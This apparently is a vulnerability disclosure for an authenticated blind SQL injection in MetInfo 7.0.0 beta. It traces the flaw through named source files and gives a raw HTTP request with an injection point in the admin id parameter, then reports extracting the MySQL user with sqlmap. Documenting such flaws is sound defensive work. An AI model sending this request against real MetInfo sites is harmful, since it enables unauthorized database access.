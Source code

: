 # The MetInfo 7.0.0 beta Background SQL Blind Injection 2 #

Description:MetInfo 7.0.0 beta allows SQL Injection via the id parameter in a admin/index.php?n=ui_set&m=admin&c=index&a=doset_text_content&table=product&field=description&text=1&id=10 request.

## 1.Version Description: ##

Use the Google Chrome open this test site.download this version（```https://u.mituo.cn/api/metinfo/download/7.0.0beta```) and build a test site.

![](35.png)

Current version as follow.

![](30.png)

## 2.SQL Injection(Need to login) ##

locate in /app/system/ui_set/admin/index.class.php line:492 to 502
![](36.png)

The function doset_text_content call set_field_text,
and we follow the function locate in /app/system/include/class/view/compile.class.php line:311 to 330
![](37.png)


In $query, directly to the id in the SQL statement.And make a SQL Injection.

    GET /admin/index.php?n=ui_set&m=admin&c=index&a=doset_text_content&table=product&field=description&text=123456&id=10* HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Mozilla/5.0 (Windows NT 6.3; rv:36.0) Gecko/20100101 Firefox/36.04
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Cookie: Hm_lvt_520556228c0113270c0c772027905838=1570592565,1570629746; PHPSESSID=e351ac2df468e9d187ecf31163c935dc; met_auth=e01fakMDoiG475LTUMYtNy2tJPH0tI8W7e3M7e12bzx8fIcVwM%2F3viTT6eJBMWuAfe6uqe8aB5BVMs3uz6XYBVz8zA; met_key=gCjlS1m; admin_lang=cn; page_iframe_url=http%3A%2F%2F127.0.0.1%2Findex.php%3Flang%3Dcn%26pageset%3D1; Hm_lpvt_520556228c0113270c0c772027905838=1570634168; arrlanguage=metinfo
    Connection: keep-alive
    Upgrade-Insecure-Requests: 1

For simplicity I will use the sqlmap and get a sql injection,and get current mysql user successfully.
![](32.png)